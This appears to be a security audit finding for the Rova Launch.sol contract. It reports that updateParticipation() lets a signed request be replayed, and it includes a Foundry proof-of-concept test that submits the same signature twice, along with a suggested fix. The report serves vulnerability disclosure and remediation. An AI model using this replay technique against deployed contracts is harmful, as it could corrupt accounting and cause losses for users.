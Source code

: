 Precise Stone Sparrow

High

# Update participation request can be replayed

### Summary

Signatures to update participation requests can be replayed.

### Root Cause

In Launch.sol:312 the function `updateParticipation()` doesn't protect against signature replay, allowing the same request to be executed multiple times.

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312

### Internal Pre-conditions

1. User has an existing participation.
2. User creates a request to update participation.

### External Pre-conditions

1. Signer role signs a request to update the participation.

### Attack Path

The payload and signature used in `updateParticipation()` can be submitted any number of times, allowing multiple executions of the same request.

### Impact

The request can be replayed, impacting the contract's accounting and potentially causing losses to users.

### PoC

The following test should be placed in Launch.UpdateParticipation.t.sol

```solidity
function test_UpdateParticipation_ReplayRequest() public {
    // Fund user1
    vm.startPrank(admin.addr);
    currency.transfer(user1, 2000 * 10 ** launch.tokenDecimals());
    vm.stopPrank();

    // Prepare update participation request
    UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(1500);
    bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

    vm.startPrank(user1);

    currency.approve(address(launch), type(uint256).max);

    // Update participation
    launch.updateParticipation(updateRequest, updateSignature);

    // Replay the same message
    launch.updateParticipation(updateRequest, updateSignature);

    vm.stopPrank();
}
```

### Mitigation

In `updateParticipation()`, validate if the participation for the `newLaunchParticipationId` is already filled by checking the presence of the `userId`, and revert if so.